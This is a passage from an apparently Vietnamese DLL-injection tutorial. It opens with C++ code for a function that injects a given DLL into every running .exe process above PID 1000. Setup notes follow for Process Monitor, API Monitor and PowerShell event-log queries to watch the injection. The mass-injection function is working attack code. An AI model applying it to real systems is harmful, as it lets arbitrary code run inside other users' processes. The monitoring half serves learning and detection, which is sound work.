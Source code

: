 ### **3. Multi-Process Injection:**

**Thêm function mới:**
```cpp
void InjectAllProcesses(const std::string& dllPath) {
    HANDLE hSnapshot = CreateToolhelp32Snapshot(TH32CS_SNAPPROCESS, 0);
    PROCESSENTRY32W pe;
    pe.dwSize = sizeof(pe);
    
    if (Process32FirstW(hSnapshot, &pe)) {
        do {
            // Filter processes (avoid system processes)
            if (wcsstr(pe.szExeFile, L".exe") && pe.th32ProcessID > 1000) {
                InjectDLL(pe.szExeFile, dllPath);
            }
        } while (Process32NextW(hSnapshot, &pe));
    }
}
```

---

## 📊 **Monitoring và Analysis**

### **1. Process Monitor Setup:**
```powershell
# Download Process Monitor từ Microsoft Sysinternals
# Filter cho process events:
# - Process Name contains "notepad"
# - Operation is "Process and Thread Activity"
```

### **2. API Monitor Setup:**
```powershell
# Download API Monitor (free)
# Monitor APIs:
# - kernel32.dll!LoadLibraryA
# - kernel32.dll!CreateRemoteThread
# - ntdll.dll!NtCreateThreadEx
```

### **3. PowerShell Monitoring:**
```powershell
# Monitor DLL loads
Get-WinEvent -FilterHashtable @{LogName='Microsoft-Windows-Kernel-Process/Analytic'} | 
    Where-Object {$_.Message -like "*LoadImage*"} |
    Select-Object TimeCreated,Id,Message

# Monitor process creation
Get-WinEvent -FilterHashtable @{LogName='Security'; ID=4688} |
    Where-Object {$_.Message -like "*notepad*"}
```

---